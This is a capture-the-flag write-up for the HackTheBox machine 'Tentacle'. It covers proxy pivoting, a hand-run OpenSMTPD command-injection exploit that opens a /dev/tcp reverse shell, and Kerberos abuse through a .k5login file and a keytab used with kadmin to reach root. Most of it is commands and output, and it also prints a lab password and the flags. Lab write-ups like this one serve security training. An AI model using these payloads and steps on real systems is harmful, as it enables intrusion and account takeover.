


# Tentacle - HackTheBox
Linux, 40 Base Points, Hard

## Machine
 


## Tentacle Solution

### User 1

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $nmap -sC -sV -oA nmap/Tentacle 10.10.10.224
# Nmap 7.80 scan initiated Tue Feb  9 20:35:52 2021 as: nmap -sC -sV -Pn -oA nmap/Tentacle 10.10.10.224
Nmap scan report for 10.10.10.224
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE      VERSION
88/tcp   open   kerberos-sec MIT Kerberos (server time: 2021-02-09 18:40:58Z)
3128/tcp open   http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
9090/tcp closed zeus-admin
Service Info: Host: REALCORP.HTB

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb  9 20:37:17 2021 -- 1 IP address (1 host up) scanned in 84.96 seconds
```

We can see the machine host name ```REALCORP.HTB```, Let's try to find another subdomains using ```dnsenum```:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ dnsenum --dnsserver 10.10.10.224 -f subdomains-top1milion.txt realcorp.htb
dnsenum VERSION:1.2.6

-----   realcorp.htb   -----


Host's addresses:
__________________


Name Servers:
______________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: ns.realcorp.htb at /usr/bin/dnsenum line 900.

Trying Zone Transfer for realcorp.htb on ns.realcorp.htb ... 
AXFR record query failed: no nameservers


Brute forcing with subdomains-top1milion.txt:
______________________________________________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31

```

It will give us the following domains:
```
ns.realcorp.htb.    	10.197.243.77
proxy.realcorp.htb  	ns.realcorp.htb
ns.realcorp.htb     	10.197.243.77
wpad.realcorp.htb   	10.197.243.31
```

We cannot access those internal IP's.

The nmap scanning show that we have another open port:
```console
...
3128/tcp open   http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
```

Which means we can try to access the internal IP's using proxy with ```proxychains4```.

So first, Let's configure the proxy chains on ```/etc/proxychains.conf``` as follow:
```
[ProxyList]
http  10.10.10.224 3128
http  127.0.0.1 3128
http  10.197.243.77 3128
```

Now, Let's try to scan using ```nmap``` and ```proxychains4```, Let's start with the wpad domain:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4  -f /etc/proxychains.conf nmap -sT -Pn 10.197.243.31 2>&1 | tee wpad.nmap
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[proxychains] DLL init
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-16 01:39 IDT
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:1025 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:443 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:1723 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:135 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:22  ...  OK
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:139 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:113 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:80  ...  OK
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:3389 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:995 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:143 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:8080 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:445 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:256 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:993 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:23 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:199 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:111 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:3306 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:25 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:554 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:1720 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:21 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:5900 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:110 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:587 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:53 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:8888 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:9535 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:444 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:3071 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:13456 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:10082 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:1105 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:7103 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:6112 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:44443 <--denied
....
```
After few seconds we can see the following ports are open:
```console
Nmap scan report for wpad.realcorp.htb (10.197.243.31)
Host is up (0.31s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

```

Let's try to scan also the another ip:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4  -f /etc/proxychains.conf nmap -sT -Pn 10.197.243.77 2>&1 | tee ns.nmap
...
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.77:2222 <--denied
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.77:3809 <--denied
Nmap scan report for 10.197.243.77
Host is up (0.31s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
88/tcp   open  kerberos-sec
464/tcp  open  kpasswd5
749/tcp  open  kerberos-adm
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 311.96 second
```

So by google search about wpad we can get the following article: [https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol).

According the article above we know about config file which called ```wpad.dat```, Let's try to get this file by using curl:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4 curl http://wpad.realcorp.htb/wpad.dat
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[proxychains] DLL init
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:80  ...  OK
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT"; 
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```

From [isInNet](https://docs.oracle.com/cd/E19575-01/821-0053/adyrv/index.html) function we can understand that ```10.197.243.0``` , ```10.241.251.0``` both are ip ranges, Let's try ```nmap``` scan with the first range (It's take around 15-20 min):

```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4  -f /etc/proxychains.conf nmap -F 10.241.251.0/24
...
Nmap scan report for 10.241.251.113
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
25/tcp open  smtp
....

```

Let's try to get more information about this service:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4 -f /etc/proxychains.conf nmap -sT -Pn -sV -A -p25 10.241.251.113
...
proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
Nmap scan report for smtp.realcorp.htb (10.241.251.113)
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello smtp.realcorp.htb [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.66 seconds

```

So we can see the open port 25 with is ```OpenSMTPD 2.0.0```, We can use the following exploit [https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/) to get RCE.

So let's try to run the exploit manually without the python script from the link above:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains -q nc 10.241.251.113 25
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;for d in x t J z 5 o N G K 9 3 B 1 n Y;do read d;done;bash;exit 0;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself


#
#
#
#
#
#
#
#
#
#
#
#
#
#

0<&95-;exec 95<>/dev/tcp/10.10.14.14/4242;sh <&95 >&95 2>&95
.
250 2.0.0 e3a1cfa7 Message accepted for delivery
quit
221 2.0.0 Bye
```

And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from realcorp.htb [10.10.10.224] 53308
whoami
root
```

By enumerating on ```/home/j.nakazawa``` we can see hidden file called ```.msmtprc```:
```
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

We know also kerberos also running on machine from previous ```nmap``` running, Let's use krb ticket to connect ssh without password by the following [https://kb.iu.edu/d/batb](https://kb.iu.edu/d/batb):
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ sudo apt-get install krb5-user
....
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ cat /etc/krb5.conf


[libdefaults]
	default_realm = REALCORP.HTB
	dns_lookup_realm = true
	dns_lookup_kdc = true
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true

[realms]
	REALCORP.HTB = {
        	kdc = 10.10.10.224
	}
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ kinit j.nakazawa  #Put the password from .msmtprc file: sJB}RM>6Z~64_
Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
└──╼ $klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
04/16/2021 04:39:08  04/17/2021 04:39:08  krbtgt/REALCORP.HTB@REALCORP.HTB

```

We need to add to ```/etc/hosts``` the following:
```
10.10.10.224	srv01.realcorp.htb
```

Which takes from ```http://10.10.10.224:3128```:



Now we add the krb, We can just connect using ```ssh``` using the krb ticket:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Fri Apr 16 02:33:11 BST 2021 from 10.10.14.23 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ ls
user.txt
[j.nakazawa@srv01 ~]$ cat user.txt 
15fa0542e68ad4b9e0a79b482712dbfa
```

And we get the user flag: ```15fa0542e68ad4b9e0a79b482712dbfa```.

### User 2 

By running [linpas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see the ```crontab```:
```console
...
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-jobs
-rw-r--r--. 1 root root   0 Nov  8  2019 /etc/cron.deny
-rw-r--r--. 1 root root 495 Dec  9 11:41 /etc/crontab
...

* * * * * admin /usr/local/bin/log_backup.sh
```

Let's see what ```/usr/local/bin/log_backup.sh``` contains:
```console
[j.nakazawa@srv01 tmp]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log

```

So as we can see the script used ```rsync``` command with ```-avz```, from ```man rsync``` we can see:
```console
rsync -avz foo:src/bar /data/tmp

       This would recursively transfer all files from the directory src/bar on the  machine
       foo  into  the  /data/tmp/bar  directory on the local machine.  The files are transferred
	   in archive mode, which ensures that symbolic links, devices, attributes, per
       missions, ownerships, etc. are preserved in the transfer.  Additionally, compression
       will be used to reduce the size of data portions of the transfer.

```

So It's mean if we put any file on ```/var/log/squid``` it will be copy to ```/home/admin/```.

Let's create file [.k5login](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html).

The .k5login file, which resides in a user’s home directory, contains a list of the Kerberos principals. Anyone with valid tickets for a principal in the file is allowed host access with the UID of the user in whose home directory the file resides. One common use is to place a .k5login file in root’s home directory, thereby granting system administrators remote root access to the host via Kerberos.

So let's locate this file on ```/var/log/squid``` with content ```j.nakazawa@REALCORP.HTB``` which it allow us to login using ssh to as admin user.

```console
[j.nakazawa@srv01 tmp]$ rm .k5login 
[j.nakazawa@srv01 tmp]$ touch .k5login
[j.nakazawa@srv01 tmp]$ echo "j.nakazawa@REALCORP.HTB" > .k5login
[j.nakazawa@srv01 tmp]$ cp .k5login /var/log/squid
```

Now let's login using ```ssh```:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ ssh admin@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Fri Apr 16 15:09:01 2021
[admin@srv01 ~]$ 
```

And we are in admin user.

### Root

So by running again [linpas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we found [keytab](https://kb.iu.edu/d/aumh) file located on ```/etc/krb5.keytab```, We can get root by using the following commands [klist](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/klist.html), [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html), [ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html).

First, let's try to use ```klist``` to see what we have inside the keytab file:
```console
[admin@srv01 kt]$ pwd
/tmp/kt
[admin@srv01 kt]$ cp /etc/krb5.keytab .
[admin@srv01 kt]$ klist -k krb5.keytab 
Keytab name: FILE:krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
[admin@srv01 kt]$ 
```

So we can see the permissions above that we can ```changepw```.

Let's use ```kadmin``` by the following command:
```console
[admin@srv01 kt]$ kadmin -k -t ./krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab ./krb5.keytab.
kadmin:
```

We are using ```kadmin``` as ```kadmin/admin@REALCORP.HTB```, Now we need to add principal of root by the following command:
```console
kadmin:  addprinc root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB":  
Re-enter password for principal "root@REALCORP.HTB":  
Principal "root@REALCORP.HTB" created.
kadmin:
```

Put any password we want, Now we can use ```cpw``` command to change root password as follow:
```console
kadmin:  cpw root
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Password for "root@REALCORP.HTB" changed.
kadmin:
```

Enter a new password for root user, and now we can use ```ksu``` to switch user to root:
```console
[admin@srv01 kt]$ ksu 
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 kt]# cat /root/root.txt
5bd8d3a545f6f26cb0b9a365f3f0f546
```

And we get the root flag ```5bd8d3a545f6f26cb0b9a365f3f0f546```.
